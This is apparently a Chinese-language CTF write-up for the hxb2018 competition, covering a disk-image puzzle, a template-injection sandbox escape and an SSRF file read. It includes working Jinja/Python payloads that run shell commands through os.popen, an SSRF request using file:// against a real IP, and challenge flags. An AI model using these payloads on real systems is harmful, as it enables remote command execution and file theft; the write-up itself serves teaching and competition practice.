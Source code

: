 hxb2018{d9e801ec08c4b44916c9c5a6

hxb2018{d9e801ec08c4b44916c9c5a6}

 

## 6.DISk

 用WinImage打开，看到如下4个文件提取4个文件的二进制数据，如下：

![img]({{site.baseurl}}/assets/images/01/clip_image040.jpg)

![img]({{site.baseurl}}/assets/images/01/clip_image042.jpg)

![img]({{site.baseurl}}/assets/images/01/clip_image044.jpg)

拼接解的flag: flag{4DS_1n_D1sk}

## 7.XmeO

### 0x01 探测

​       输入 {{1+1}}. 发现页面回显是 2 执行命令了，结合之前的一次ctf的试题，推测可能是沙箱逃逸的漏洞。又是模板注入考了至少3次了。。。

 

### 0x02 测试

​       推测是沙箱逃逸了，于是网上搜索文章 https://blog.csdn.net/wy_97/article/details/80393854。开始了测试

 {{().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /").read()' )}}. 可以查看 根目录的文件

​       

 {{().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("grep -r -n 'hxb' /home ").read()' )}}. 查/home下 文件中包含 hxb的字符串

## 8.  ![img]({{site.baseurl}}/assets/images/01/clip_image046.jpg)Readflag

ssrf读取文件的时候，找到了web目录

![a7f4c9890122bee9e9741ae39af94ff1]({{site.baseurl}}/assets/images/01/clip_image048.gif)

 

起先以为是代码审计绕过后来测试发现不是，访问flag发现得到结果。47.107.238.143/?url=file:///var/www/html/ssrf/flag

![b31c0ca8c731000c273f5d77b53835fe]({{site.baseurl}}/assets/images/01/clip_image050.gif)

## 9.MyNote

访问：<http://47.107.234.8/robots.txt>
